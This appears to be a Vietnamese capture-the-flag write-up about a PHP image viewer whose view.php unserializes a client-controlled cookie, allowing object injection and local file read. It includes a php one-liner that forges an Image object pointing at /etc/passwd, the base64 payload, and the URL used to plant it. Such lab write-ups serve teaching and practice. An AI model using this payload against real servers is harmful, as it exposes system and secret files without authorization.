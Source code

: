 ## Phân tích mã nguồn

### `index.php`

- Duyệt qua thư mục `images/` và tạo đối tượng `Image` cho mỗi file:

```php
$image = new Image($filename);
$serializedImage = base64_encode(serialize($image));
```

- Khi người dùng click “View”, script gọi JS `viewImage()` → set cookie `image_data` = base64(serialized object).

---

### `view.php`

- Nhận cookie `image_data`, decode base64, rồi:

```php
$imageObj = unserialize($imageData);
```

- Nếu object là `Image` và file tồn tại:
    - Nếu MIME type là ảnh → hiển thị `<img>`.
    - Nếu không phải ảnh → đọc file và in ra nội dung:
        
        ```php
        echo "<pre class='hidden-content'>" . htmlspecialchars(file_get_contents($imageObj->path)) . "</pre>";
        ```
        
        (Bị CSS `display:none`, nhưng vẫn nằm trong HTML).
        

**→ Đây là PHP Object Injection** qua `unserialize()` với dữ liệu do client kiểm soát, dẫn đến **Local File Read**.

---

### `upload.php`

- Không liên quan trực tiếp tới bug chính.Khai thác

---

### Ý tưởng

- Tạo một object `Image` giả với thuộc tính `$path` trỏ tới file cần đọc.
- Serialize object → base64 encode để giống luồng hợp pháp.
- Dùng tính năng `?set_image=` của `view.php` để set cookie.
- Mở `view.php`, xem source để lấy nội dung file.

---

### Bước 1 – Tạo payload

Dùng PHP local để serialize đúng format:

```bash
php -r 'class Image{public $path;} $o=new Image; $o->path="/etc/passwd"; echo base64_encode(serialize($o));'
```

Output:

<img width="672" height="244" alt="image" src="https://github.com/user-attachments/assets/44c5922d-b2bf-4b33-b240-4b9b2dfdbeef" />


```
Tzo1OiJJbWFnZSI6MTp7czo0OiJwYXRoIjtzOjExOiIvZXRjL3Bhc3N3ZCI7fQ==
```

---

### Bước 2 – Set cookie và test

Truy cập:

```
http://<HOST>/view.php?set_image=Tzo1OiJJbWFnZSI6MTp7czo0OiJwYXRoIjtzOjExOiIvZXRjL3Bhc3N3ZCI7fQ==
```

→ Trang redirect về `view.php`.

Ta kiểm tra phần source để tìm kiếm hidden-content → Tìm được Flag

<img width="1524" height="214" alt="image" src="https://github.com/user-attachments/assets/63f8ccbd-b7cb-4e04-ad6c-32714988dfda" />

